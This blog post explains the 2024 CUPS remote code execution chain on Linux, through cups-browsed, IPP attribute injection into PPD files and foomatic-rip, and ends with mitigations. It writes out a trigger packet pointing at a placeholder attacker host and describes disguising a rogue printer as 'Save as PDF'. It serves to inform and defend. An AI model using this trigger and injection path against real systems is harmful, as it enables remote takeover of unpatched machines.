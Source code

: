 ```yaml
---
layout: post
title: Another reason to stop printing
date: 2024-10-09 
description: The CUPS Vulnerability in all(most) Linux Machines
tags: CUPS
categories: tech-news
---
```

<!-- TOC -->

1. [Introduction](#introduction)
2. [The Common UNIX Printing System (CUPS)](#the-common-unix-printing-system-cups)
3. [The Internet Printing Protocol (IPP)](#the-internet-printing-protocol-ipp)
4. [The Attack](#the-attack)
5. [Conclusion](#conclusion)

<!-- /TOC -->
Everyone falls into one of 2 categories -  people who use pdfs and people who waste paper (it's a joke). But regardless of your take on printing, if you use Linux as your daily driver, there is good chance you are vulnerable to a remote code execution (RCE) attack because of printers. How is this possible? What is a CUPS? Let's find out.


# Introduction

The vulnerability was discovered and reported by <a href="https://x.com/evilsocket">Simone Margaritelli</a> in a <a href="https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/">blog post on his website</a>. He noticed that a new Ubuntu install, there was a service listening for UDP packets on local address `0.0.0.0:631` from foreign address `0.0.0.0:*`. This means that some service was listening on port 631 on all local interfaces for packets from ANY IP address. Any UDP packet that is sent to port 631 on the device will be accepted by the service. Anyone can understand why that is not a safe behaviour.

After further investigation, he found that the `cups-browsed` process was listening for UDP packet on port 631.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0 col-lg-12">
        {% include figure.html path="assets/img/CUPS/2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

# The Common UNIX Printing System (CUPS)

The Common UNIX Printing System or <a href="https://www.cups.org/">CUPS</a> is an open source printing system developed from UNIX platforms. It uses the <a href="https://www.pwg.org/ipp/everywhere.html">Internet Printing Protocol (IPP)</a> to support local and network printing. It is a modular printing system that can be installed in almost any UNIX based systems including macOS and comes installed by default in pretty much most Linux distributions. The `cups-browsed` component of the system is the part of CUPS that is responsible for automatically discovering and configuring new network printers. it uses protocols such as DNS Service Discovery (DNS-SD) or Bonjour. The process also autoconfigures printers and adds them to the available devices for printing. This is the service that he found listening on port 631 for UDP packets. 

# The Internet Printing Protocol (IPP)

The <a href="https://www.pwg.org/ipp/ippguide.html#chapter-1-overview-of-ipp">IPP</a> provides a level of abstraction between the printer and device that allows for devices to request print jobs and other services without actually knowing the internal hardware of the printer. It uses HTTP in the transport layer and uses HTTP POST to send print data. Each printer is identified with HTTP URIs to port 631. Each print job is then given a unique job number for that printer. Example printer URI: `http://printer.example.com:631/ipp/print`. The IPP also supports a `Get-Printer-Attributes` request which it uses to learn the printer's capabilities and status. The CUPS system does not validate or sanitise any of the data it receives from this packet, which allows an attacker to control the data sent the CUPS server.
# The Attack

The attack is a culmination of a number of known CVEs that, if put together result in the perfect storm that is this attack.
Quoting from Simone's blog:

`CVE-2024-47176 | cups-browsed` <= 2.0.1 binds on UDP INADDR_ANY:631 trusting any packet from any source to trigger a Get-Printer-Attributes IPP request to an attacker controlled URL.<br>
`CVE-2024-47076 | libcupsfilters` <= 2.1b1 cfGetPrinterAttributes5 does not validate or sanitize the IPP attributes returned from an IPP server, providing attacker controlled data to the rest of the CUPS system.
<br>`CVE-2024-47175 | libppd` <= 2.1b1 ppdCreatePPDFromIPP2 does not validate or sanitize the IPP attributes when writing them to a temporary PPD file, allowing the injection of attacker controlled data in the resulting PPD.
<br>`CVE-2024-47177 | cups-filters` <= 2.0.1 foomatic-rip allows arbitrary command execution via the FoomaticRIPCommandLine PPD parameter.

The CUPS server on a device, by default listens for UDP packets from any desintation. If the server recives a packet of the form `0 3 http://<ATTACKER-IP>:<PORT>/printers/xyz` to port 631 from any IP, it returns a GetAttributes request, requesting more information from the printer. However, the IP address that the printer uses is not validated in any way and this GetAttributes will be requested for any matching packet.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0 col-lg-12">
        {% include figure.html path="assets/img/CUPS/1.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The `GetAttributes` request leaks sensitive system information such as the user agent running on the server as well as the kernel version running. This is pretty much a free data leak for any attacker. 

Simone was then able to create an approprirate response packet to the request and just like that, his fake printer was now available in his laptop to send print commands.

The CUPS service creates `PostScript Printer Description (PPD)` files from data that is sent by the printer. The data sent is completely unsanitised and is directly stored in the PPD files. PPD files are created by printer manufactureres to provide the entire feature set of the printer. There are many diferent description avaiable to completely desctribe the priner's capabilities. One such description is the <a href="https://www.cups.org/doc/spec-ppd.html#cupsFilter2">cupsFilter2</a>. `cupsFilter2` takes a particular filetype and converts it into a filetype the print can work with using a program as a filter. However, the program is contsrained to exist within the `/usr/lib/cups/filter` directory. This particular check is enforced. Therefore, any attack would have to abuse a filter that exists in the directory.

The filter that makes all this possible is `foomatic-rip`. This filter is long known to be vulnerable and has a number of quite old CVEs associated with it (<a href="https://nvd.nist.gov/vuln/detail/CVE-2011-2964">CVE-2011-2964</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2011-2967">CVE-2011-2967</a>). The filter accepts any command passed under the `FoomaticRIPCommandLine` directive and directly executes them as a filter. I don't think anyone needs to be explained on why that is a TERRIBLE IDEA. Even the developers of CUPS know about this but their hands are tied. The `foomatic-rip` filter is required to ensure that older printer models (before 2010) can still work. 

Having total control over the what command gets executed as a filter is pretty much game over. However, the filter only gets excuted when the victim chooses to print using the attacker's malicious printer. While some people can be vigilant and notice a printer out of place in a list, the attacker can name their printer `Save as PDF`, `HP Deskjet` or any of the common printers and most people would not pay close attention to the option they are choosing.

# Conclusion

At the time of writing this blog, there is no official fix to this vulnerability. The best that we can do for now is to disable CUPS on the local system unless you need to print. It is also possible to configure which IP addresses can connect to the CUPS server by editing `/etc/cups/cups-browsed.conf`. Blocking all traffic to port 631 would also prevent any of this from happening. The abliity of an attacker to perform this attack via the internet (as long as the device is reachable) makes it that much more dangerous.

I hope you found this read interesting and learnt something out of it. I highly recommend reading Simone's <a href="https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I">original blog post</a>. It goes into much more details about the codebase and the steps he took to find this attack path. Thanks for reading! See you in the next one.